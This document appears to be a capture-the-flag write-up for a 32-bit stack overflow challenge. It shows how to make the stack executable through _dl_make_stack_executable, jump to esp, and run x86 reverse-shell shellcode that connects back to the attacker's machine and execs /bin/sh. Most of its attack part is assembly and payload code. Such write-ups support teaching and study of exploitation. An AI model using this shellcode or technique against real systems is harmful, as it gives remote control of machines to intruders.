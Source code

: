 # kidding

The challenge gives us a file without libc

Running it

![](https://hackmd.io/_uploads/H1xv4I0qn.png)

The program gets an input then ends

Debuging with gdb

`main`

```
Dump of assembler code for function main:
   0x0804887c <+0>:     push   ebp
   0x0804887d <+1>:     mov    ebp,esp
   0x0804887f <+3>:     sub    esp,0x8
   0x08048882 <+6>:     push   0x64
   0x08048884 <+8>:     lea    eax,[ebp-0x8]
   0x08048887 <+11>:    push   eax
   0x08048888 <+12>:    push   0x0
   0x0804888a <+14>:    call   0x806d180 <read>
   0x0804888f <+19>:    add    esp,0xc
   0x08048892 <+22>:    push   0x0
   0x08048894 <+24>:    call   0x806d330 <close>
   0x08048899 <+29>:    add    esp,0x4
   0x0804889c <+32>:    push   0x1
   0x0804889e <+34>:    call   0x806d330 <close>
   0x080488a3 <+39>:    add    esp,0x4
   0x080488a6 <+42>:    push   0x2
   0x080488a8 <+44>:    call   0x806d330 <close>
   0x080488ad <+49>:    add    esp,0x4
   0x080488b0 <+52>:    mov    eax,0x0
   0x080488b5 <+57>:    leave
   0x080488b6 <+58>:    ret
```

* So it `read` `0x64` bytes from `sdtin`, stores result in `ebp - 0x8` and call `close(stdin)`, `close(stdout)`, `close(stderr)`

Checksec

![](https://hackmd.io/_uploads/rJ9zvS0q2.png)

Check for process mapping then i see that it doesn't use libc

![](https://hackmd.io/_uploads/Bklw48Cqh.png)


* Then decompile the program with `ida` i see that many functions in libc is in the program. In other word, this program is a libc. But it doesn't have some functions tho
* Since it `close` all standard file stream, we can't interact with it even if we can get a shell. So the idea is using `reverse-shell`
* So i write `reverse-shell shellcode` to stack then executes it

## Make stack executable

Basically the first thing i have to do is making the stack executable

* First i tried to use `mprotect` syscall but it didn't work, then i figured out that the address passed to that has to be `AND` with `0xfffff000`. Even i can make the address align like that but it takes too many gadgets
* Then i found out there's a function that make stack executable for me. It's call `_dl_make_stack_executable`.

```cpp=
unsigned int __usercall dl_make_stack_executable@<eax>(_DWORD *a1@<eax>)
{
  unsigned int result; // eax

  if ( *a1 != _libc_stack_end )
    return 1;
  result = mprotect(*a1 & -dl_pagesize, dl_pagesize);
  if ( result )
    return *(_DWORD *)(__readgsdword(0) - 24);
  *a1 = 0;
  dl_stack_flags |= 1u;
  return result;
}
```

* To make it work, the argument must be `_libc_stack_end`, then it call `mprotect` with `prot` is stored in a global variable called `__stack_prot`. First `__stack_prot` contain `0x100000`

![](https://hackmd.io/_uploads/r1lvEI09n.png)

* So i have to change it to `0x7` (PROT_READ | PROT_WRITE | PROT_EXEC)

```cpp=
#define	PROT_READ	 0x04	/* Pages can be read.  */
#define	PROT_WRITE	 0x02	/* Pages can be written.  */
#define	PROT_EXEC	 0x01	/* Pages can be executed.  */
```

So after making stack executable, i use `jmp esp` to jump to my `reverse-shell shellcode`

## Reverse-shell

You can see [this](https://smarinovic.github.io/posts/Reverse-shell/) for more infomations about `reverse-shell`

* Some syscall i use to create a `reverse-shell`. See [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) for syscall number
```
execve   0xb         //to execute('/bin/sh')
socket   0x167       //to create socket
connect  0x16a       //to connect to our machine
dup2     0x3f        //redirect file stream to socket  
```
* First i wonder if i can use `dup2` with a closed file stream. Reading document for `dup2`

>If the file descriptor newfd was previously open, it is closed
       before being reused; the close is performed silently (i.e., any
       errors during the close are not reported by dup2()).

* `dup2` will `close` the file stream anyway so it's okay

* So my `revese-shell` will be like this after trying to minimize the size

```

//socket(AF_INET, SOCK_STREAM, 0)
push 2
pop ebx                ;ebx = AF_INET for ipv4
push 1
pop ecx                ;ecx = SOCK_STREAM for tcp protocol
push eax
pop edx                ;edx = 0 for ip protocol
mov ax, 0x167 
int 0x80

//eax is now socket file descriptor

//connect(socket, struct sockaddr_in, len)                 
mov edi, eax          ;store the socket in edi to reuse
//create struct on stack
push ebp              ;ip address 
push  {}0002          ;port and AF_INET
mov ecx, esp          ;sockaddr struct
mov ebx, edi          ;ebx = socket
mov dl, 0x10          ;size of (struct sockaddr_in)
mov ax, 0x16a
int 0x80


//dup2(socket, stdin)
mov al, 0x3f
xor ecx, ecx           ;ecx = 0(stdin), ebx is already socket
int 0x80

//dup2(socket, stdout)
mov eax, 0x3f
mov ebx, edi           ;ebx = socket
mov ecx, 1             ;ecx = stdout
int 0x80

//i don't dup2(socket, stderr) here because we don't need it, but it you like you can do it



//execve('/bin/sh')
mov eax, 0xb
push 0x68732f
push 0x6e69622f
mov ebx, esp           ;ebx -> /bin/sh
mov ecx, 0    
mov edx, 0
int 0x80
```


* The problem rises when the payload's length is over `100`. So far to `socket(socket, stdout)` it's okay, i decided to make a `read` syscall after `dup2(socket, stdin)` and continue my shellcode by that `read`
* So in server side it has to send the remained shellcode
* Calculate the distance between `esp` and `eip` to write shellcode at right place

![](https://hackmd.io/_uploads/BJxw4U0cn.png)

* So my payload will be like

```python=
b'A'*0x3c + shell
```

Running it

![](https://hackmd.io/_uploads/r1ew4L0c3.png)

Success get a shell in the program

Checking in server side

![](https://hackmd.io/_uploads/HyevN8A93.png)

It works but i don't have any server to check if my solution is true. 
